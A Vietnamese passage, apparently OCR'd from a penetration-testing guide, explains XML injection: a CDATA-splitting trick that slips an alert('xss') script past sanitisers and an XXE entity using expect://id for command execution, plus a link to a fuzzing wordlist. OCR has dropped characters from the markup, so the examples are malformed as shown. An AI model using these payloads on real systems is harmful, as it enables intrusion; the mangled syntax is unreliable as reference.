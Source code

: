 ```xml 
<node>
    < [CDATA[<foo>]]>
</node>
```

để `<foo>` sẽ không được phân tích cú pháp dưới dạng đánh dấu và sẽ được coi là dữ liệu ký tự.

Nếu một nút được tạo theo cách sau:

```xml 
<username>< [CDATA[<$userName]]></username>
```

- Một thử nghiệm khác liên quan đến thẻ CDATA. Giả sử rằng tài liệu XML được xử lý để tạo ra một trang HTML. Trong trường hợp này, các dấu phân cách phần CDATA có thể bị loại bỏ một cách đơn giản mà không cần kiểm tra thêm nội dung của chúng. Sau đó, có thể chèn các thẻ HTML, thẻ này sẽ được đưa vào trang đã tạo, bỏ qua hoàn toàn các quy trình vệ sinh hiện có.
- Hãy xem xét một ví dụ cụ thể. Giả sử chúng ta có một nút chứa một số văn bản sẽ được hiển thị lại cho người dùng.

```xml 
<html>
    $HTMLCode
</html>
```

Sau đó, kẻ tấn công có thể cung cấp thông tin đầu vào sau:

```xml 
$HTMLCode = < [CDATA[<]]>script< [CDATA[>]]>alert('xss')< [CDATA[<]]>/script< [CDATA[>]]>
```

và lấy nút sau:

```xml 
<html>
    < [CDATA[<]]>script< [CDATA[>]]>alert('xss')< [CDATA[<]]>/script< [CDATA[>]]>
</html>
```

Trong quá trình xử lý, các dấu phân cách phần CDATA bị loại bỏ, tạo ra mã HTML sau:

```javascript 
<script>
    alert('XSS')
</script>
```

Kết quả là ứng dụng dễ bị tấn công bởi XSS.

#### Công cụ kiểm tra XML injection

- https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/XML.txt

#### RCE

```xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
< DOCTYPE foo
  [< ELEMENT foo ANY >
   < ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>
```

